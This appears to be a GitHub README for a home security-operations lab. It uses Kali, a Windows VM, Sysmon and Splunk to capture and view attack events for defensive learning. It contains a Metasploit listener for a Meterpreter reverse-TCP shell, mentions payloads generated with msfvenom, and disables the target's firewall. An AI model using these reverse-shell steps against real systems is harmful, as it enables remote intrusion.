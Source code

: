 # SOC-Homelab
This project is a **home SOC lab** demonstrating:

- Kali Linux as the attacker machine  
- Windows VM as the target machine  
- Sysmon installed on Windows to log system events  
- Splunk (or Splunk Universal Forwarder) to collect and visualize logs  

 This repository does **not include any malware or payload executables**
## Lab Goals
1. Simulate Windows event monitoring using Sysmon.  
2. Generate safe payloads for testing (e.g., Meterpreter in a controlled internal network).  
3. Capture and visualize logs in Splunk to understand attack behaviors.  

## Lab Setup
### Network
- **Internal Network** in VirtualBox for isolation.  
- Kali Linux VM IP: `192.168.20.11`  
- Windows VM IP: `192.168.20.10`  
- Subnet mask: `255.255.255.0`  

### Kali Linux VM
- Installed **Metasploit Framework** for testing payloads.  
- Generated **safe test payloads** with `msfvenom` using LHOST = Kali IP.  
- Started listener with `msfconsole`:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 8888
exploit

Windows VM

Installed Sysmon with a configuration XML:
sysmon.exe -i sysmonconfig.xml
Disabled firewall temporarily for lab testing.
Verified Sysmon logs in Event Viewer:

Splunk Configuration

Installed Splunk Universal Forwarder on Windows VM.
Configured inputs.conf to collect Sysmon logs:
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = sysmon
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
Restarted Splunk service to begin indexing events.
Verified events appear in Splunk dashboards.
<img width="1920" height="1080" alt="kalilab network" src="https://github.com/user-attachments/assets/bb68e9d6-a686-4b4f-aae3-79fc05b496d0" />
<img width="1024" height="768" alt="ipv4" src="https://github.com/user-attachments/assets/9a20b343-693c-4196-a8a8-09742eab7bb0" />
<img width="1024" height="768" alt="ipconfig" src="https://github.com/user-attachments/assets/3eb57f7f-032b-4be0-ba96-0bf32cb9aa91" />
<img width="1024" height="768" alt="firewall settings" src="https://github.com/user-attachments/assets/c9a3fb35-47d8-49bf-b1fb-339920ed673a" />
<img width="1024" height="768" alt="splunk inputs conig" src="https://github.com/user-attachments/assets/0ccb9660-e2ef-49ab-a285-ead3f4374fbe" />
<img width="1024" height="768" alt="Sysmon access" src="https://github.com/user-attachments/assets/e00f2dd6-9f76-491b-a03c-2519fe27af6a" />
<img width="1024" height="768" alt="sysmon config" src="https://github.com/user-attachments/assets/8bf8e705-245a-423a-ab82-298896825d3c" />
